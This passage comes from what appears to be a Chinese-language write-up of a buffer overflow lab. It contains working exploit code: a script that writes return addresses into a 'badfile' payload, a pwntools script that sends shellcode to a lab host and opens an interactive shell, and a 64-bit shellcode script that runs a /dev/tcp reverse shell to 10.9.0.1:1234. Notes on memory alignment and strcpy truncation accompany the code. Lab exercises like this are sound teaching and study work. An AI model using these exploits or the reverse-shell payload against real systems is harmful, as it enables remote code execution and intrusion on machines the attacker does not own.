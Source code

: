 ```python
# Use 4 for 32-bit address and 8 for 64-bit address
for offset in range(0,300,4):
    content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)

```

结果：

![image-20251003002252430](https://raw.githubusercontent.com/Aur0r3-zy/picture/main/img/20251008210246532.png)

**在填入函数返回地址时，要注意内存对齐，即0xcff8  + 304 = 106784，该数值可以被4整除。（64位系统下需要满足可以被8整除）**

**payload结构 = NOP1地址 + NOP1地址 + ...... + NOP1地址 + NOP1 + NOP2 + ... + shellcode**

**pwntools版本**

```python
#!/usr/bin/env python3
from pwn import *
context(arch='i386', os='linux')
p = remote('10.9.0.6',9090)
shellcode = asm(shellcraft.sh())
offset = 116
ret = 0xffffd4a8 + 304
payload = p32(ret) * 76 + shellcode + b'a' * (517 - len(shellcode) - 304)
p.send(payload)
p.interactive()
```

# Task 4

**strcpy()函数遇到\0会停止复制，内存地址中的0会使strcpy()函数停止复制，发生截断，所以将构造的返回地址放在整个构造的buf的最后面，shellcode部分放在buf的最前面，即可解决截断问题**

攻击代码：

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 64; /bin/tail -n 4 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1            "
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
